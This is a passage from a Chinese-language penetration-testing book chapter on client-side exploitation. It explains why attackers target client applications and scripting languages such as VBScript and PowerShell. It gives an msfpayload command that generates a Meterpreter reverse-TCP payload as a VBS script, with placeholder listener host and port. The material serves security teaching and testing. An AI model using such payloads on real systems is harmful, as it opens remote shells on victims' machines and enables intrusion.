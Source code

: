 # 十一、客户端利用

对于攻击者或有效的渗透测试人员来说，最大的挑战是绕过目标的安全控制以实现妥协。当目标系统位于网络上时，这可能很困难，因为攻击者通常需要绕过防火墙、代理、入侵检测系统和纵深防御体系结构的其他元素。

一个成功的变通策略是直接针对客户端应用。用户发起与客户端应用的交互，允许攻击者利用用户和应用之间存在的现有信任。使用社会工程方法将提高客户端攻击的成功率。

客户端攻击目标系统通常缺乏企业系统上的安全控制（特别是防火墙和入侵检测系统）。如果这些攻击成功并建立了持久通信，则如果客户端设备重新连接到目标网络，则可以使用客户端设备发起攻击。

在本章结束时，您将了解如何使用以下方法攻击客户端应用：

*   恶意脚本攻击（VBScript 和 PowerShell）
*   跨站点脚本框架
*   浏览器利用框架

# 使用恶意脚本攻击系统

利用了客户端脚本，如 JavaScript、VBScript 和 PowerShell，以将应用逻辑和操作从服务器移动到客户端计算机。从攻击者或测试人员的角度来看，使用这些脚本有以下几个优点：

*   它们已经是目标公司自然运行环境的一部分；攻击者不必将大型编译器或其他辅助文件（如加密应用）传输到目标系统。
*   脚本语言旨在促进计算机操作，如配置管理和系统管理。例如，它们可用于发现和更改系统配置、访问注册表、执行程序、访问网络服务和数据库，以及通过 HTTP 或电子邮件移动二进制文件。这样的标准脚本化操作可以很容易地被测试人员采用。
*   由于它们是操作系统环境固有的，因此通常不会触发防病毒警报。
*   它们很容易使用，因为编写脚本需要一个简单的文本编辑器。使用脚本发动攻击没有任何障碍。

从历史上看，JavaScript 是发动攻击的首选脚本语言，因为它在大多数目标系统上广泛可用。由于 JavaScript 攻击已经得到了很好的描述，我们将重点介绍 Kali 如何使用更新的脚本语言（VBScript 和 PowerShell）来促进攻击。

## 使用 VBScript 进行攻击

**Visual Basic 脚本版本**（**VBScript）**是微软利用的一种**主动脚本语言**。它被设计成一种轻量级的 Windows 本机语言，可以执行小程序。自 Windows 98 以来，Microsoft Windows 的每个桌面版本都默认安装了 VBScript，使其成为客户端攻击的最佳目标。

要使用 VBScript 发起攻击，我们将从命令行调用 Metasploit 的`msfpayload`：

```
root@kali:~# msfpayload windows/meterpreter/reverse_tcp
  LHOST=[Your local Host] LPORT= [Your Local Port] V 

```

注意，`V`指定输出为 VBS 宏脚本。输出将显示为包含两个特定部分的文本文件，如以下屏幕截图所示：

![Conducting attacks using VBScript](img/3121OS_11_01.jpg)
